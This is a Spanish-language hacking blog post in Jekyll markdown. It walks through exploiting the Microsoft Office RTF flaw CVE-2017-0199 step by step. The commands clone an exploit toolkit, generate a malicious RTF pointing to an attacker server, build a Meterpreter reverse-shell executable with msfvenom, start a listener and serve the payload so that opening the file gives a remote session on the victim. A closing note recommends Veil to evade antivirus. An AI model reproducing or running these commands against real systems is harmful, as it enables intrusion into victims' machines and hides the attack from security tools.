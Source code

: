```yaml
---
layout: post
title: "ATAQUE CON ARCHIVOS MALICIOSOS RTF (CVE-2017-0199)"
quote: "Hacking"
image:
      url:/assets/images/fondo.jpg
video: false
comments: true
theme_color: 302F2D
---
```

Empecemos por saber cómo funciona esta vulnerabilidad, a principios de abril se hablaba sobre este exploit que afecta a todas las versiones 
de Microsoft office, con solo abrir el documento en Word permite la ejecución de código sin requerir de que las macros se encuentren habilitadas, 
el exploit se conecta a un servidor remoto controlado por el atacante, descarga un archivo .hta y lo ejecuta.

### POC CVE-2017-0199

Creamos una carpeta e ingresamos a este directorio desde la terminal y ponemos siguiente:
```
git clone  https://github.com/bhdresh/CVE-2017-0199
```
Nos vamos al directorio donde hemos descargado el repositorio e ingresamos a la carpeta
{% include image.html url="http://bit.ly/2p5wDSj" %}

Damos permisos de ejecución con `chmod +x`. 
{% include image.html url="http://bit.ly/2pOHeQH" %}

Generamos nuestro archivo malicioso RTF:
```
python cve-2017-0199_toolkit.py -M gen -w uthh.rtf -u http://192.168.101.12/logo.doc
```
{% include image.html url="http://bit.ly/2qMi7ey" %}


Movemos el archivo RTF`(uthh.rtf)` al Escritorio 
{% include image.html url="http://bit.ly/2pJxerA" %}


Ahora abrimos otra Terminal y generamos nuestro payload:
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.101.12 LPORT=4444 -f exe > /tmp/shell.exe
```
{% include image.html url="http://bit.ly/2qMeLZg" %}


Iniciamos un handler de escucha:
```
msfconsole -x "use multi/handler; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST 192.168.101.12; run"
```
Vemos que ya se encuentra a la escucha
{% include image.html url="http://bit.ly/2p5bQ1m" %}

Montaremos un servidor web para que cuando la víctima abra el archivo nosotros obtendremos una session remota.

Nos vamos a la terminal anterior donde se encuentra nuestro repositorio y ponemos lo  siguiente:
```
python cve-2017-0199_toolkit.py -M exp -e http://192.168.101.12/shell.exe -l /tmp/shell.exe
```
{% include image.html url="http://bit.ly/2qAUdWQ" %}
Veremos que el exploit ya está esperando una conexión de la víctima y que está corriendo en el puerto 80.

Pasamos el archivo RTF(uthh.rtf) que anteriormente movimos al escritorio a una maquina Windows.
Una vez que estemos en Windows abrimos el archivo `uthh.rtf`. 
{% include image.html url="http://bit.ly/2pOS72W" %}
{% include image.html url="http://bit.ly/2q8k0pV" %}

Con tan solo abrir el documento RTF, en la máquina del atacante hemos obtenido una sesision y pues ya estamos dentro de la máquina de la víctima.
{% include image.html url="http://bit.ly/2qM6Tqr" %}
{% include image.html url="http://bit.ly/2pi8V17" %}

<div class="message">
Nota: He utilizado msfvenom por lo cual es detectado por la mayoria de los Antivirus lo ideal seria utlizar Veil   
</div>

By Torres Happy Hacking
